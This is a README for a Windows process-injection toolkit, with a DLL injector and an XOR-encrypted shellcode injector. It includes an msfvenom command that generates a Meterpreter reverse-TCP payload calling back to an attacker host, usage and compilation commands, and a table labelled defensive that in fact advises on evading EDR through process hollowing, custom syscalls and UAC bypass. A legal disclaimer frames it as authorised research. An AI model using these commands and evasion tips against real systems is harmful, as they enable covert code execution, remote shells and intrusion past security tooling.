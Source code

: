 # Dll-Inject 🔧 | Windows Injection Toolkit

Tools for implementing Windows processes, including implementing DLL libraries and implementing XOR-encrypted shellcode. Includes architecture verification and error handling

![GitHub](https://img.shields.io/badge/Language-C++-blue) 
![License](https://img.shields.io/badge/License-MIT-green) 
![Platform](https://img.shields.io/badge/OS-Windows-lightgrey)

<h2 align="center">⚠️ Legal & Ethical Warning</h2> 
<strong>This project is for educational and authorized security research only.</strong> Unauthorized use, including but not limited to attacking systems without explicit owner consent, is strictly prohibited and violates international cybercrime laws 

**By using this toolkit, you agree to:**
1. **Legal Compliance**: Use only on systems you own or have written authorization to test
2. **Ethical Responsibility**: Never engage in malicious activities or data destruction
3. **Full Liability**: Assume all legal/financial consequences for misuse


## 🛠️ Core Features

| **Feature**              | **DLL Injector**                        | **Shellcode Injector**                        |
|--------------------------|-----------------------------------------|-----------------------------------------------|
| **Injection Method**     | `CreateRemoteThread` + `LoadLibraryW`   | Direct memory execution + XOR decryption      |
| **Payload Delivery**     | On-disk DLL                             | Fully in-memory                               |
| **Memory Protection**    | `PAGE_READWRITE`                        | `PAGE_EXECUTE_READWRITE` (DEP bypass)         |
| **Architecture Control** | Manual matching required                | Auto-detection via `IsWow64Process`           |
| **Obfuscation**          | None                                    | XOR encryption (key: `0xAA`)                  |
| **Payload Types**        | Standard DLLs                           | Staged/Non-staged (CS/Meterpreter compatible) |
| **Error Reporting**      | Win32 error codes                       | Detailed codes + execution timeout            |
| **Cleanup**              | Full handle/memory release              | Post-execution sanitization                   |
| **Ideal For**            | Game modding, debug hooks               | Red team operations, EDR research             |

## 🎯 Usage Scenarios

### DLL Injection
**Test DLL Creation:**
```cpp
// test_dll.cpp
#include <windows.h>
extern "C" __declspec(dllexport) void EntryPoint() {
    MessageBoxA(0, "Injected!", "Success", MB_OK);
}
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason, LPVOID lpReserved) {
    if (ul_reason == DLL_PROCESS_ATTACH) EntryPoint();
    return TRUE;
}
```
**Execution:**
```bash
.\dll-injector.exe (Get-Process notepad).Id "C:\test-payload.dll"
```

### Shellcode Injection
**Payload Generation:**
```bash
msfvenom --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=666 -f type
```
**Code Integration:**
```cpp
// shellcode-injector.cpp
unsigned char shellcode[] = { 
    ...
};
```
**Execution:**
```bash
shellcode-injector.exe 1472
```
<h1 align="center">
    <a href="https://github.com/Untouchable17/Windows-DLL-Shellcode-Injection-Toolkit">
        <img src="https://i.ibb.co/KkKZVkS/photo-shellcode.jpg" width="700">
    </a>
</h1>


## 🛠️ Compilation Guide

### **DLL Injector**
```bash
# x64
x86_64-w64-mingw32-g++ dll-injector.cpp -o dll-injector.exe -static -lws2_32 -s -Os

# x86
i686-w64-mingw32-g++ dll-injector.cpp -o dll-injector32.exe -static -lws2_32 -s -Os

# Flags: -s (strip symbols), -Os (optimize for size) - optionally
```

### **Shellcode Injector**
```bash
# x64
x86_64-w64-mingw32-g++ shellcode-injector.cpp -o shellcode-injector.exe -static -lwin32 -s -Os

# x86
i686-w64-mingw32-g++ shellcode-injector.cpp -o shellcode-injector32.exe -static -lwin32 -s -Os

# Flags: -s (strip symbols), -Os (optimize for size) - optionally
```

## 🛡️ Defensive Considerations
| **Technique**             | **Detection Risk**         | **Mitigation Tips**                                                |
|---------------------------|----------------------------|--------------------------------------------------------------------|
| **Classic DLL Injection** | High                       | Use reflective DLL loading                                         |
| **XOR Encryption**        | Medium                     | Implement AES + runtime key derivation                             |
| **RWX Memory**            | Critical                   | Use NTAPI calls `NtAllocateVirtualMemory` + memory section mapping |
| **Remote Threads**        | High                       | Leverage process hollowing or APC queue injection                  |


### ⚠️ Important Notes
- **EDR Bypass:** This toolkit does not implement advanced evasion techniques. Always:
    - Test in isolated environments 
    - Combine with process spoofing/UAC bypass
    - Use custom syscalls instead of WinAPI
- **Shellcode Requirements:**
    - Position-independent (PIC)
    - Null-byte free (if using XOR)
- **Debugging:**
```cpp
#ifdef _DEBUG
printf("[+] Allocated memory at 0x%p\n", remoteBuffer);
#endif
```

<h2 align="center">Contact Developer</h2>

    Telegram Group:     t.me/secdet_team
    Email:              tylerblackout17@gmail.com
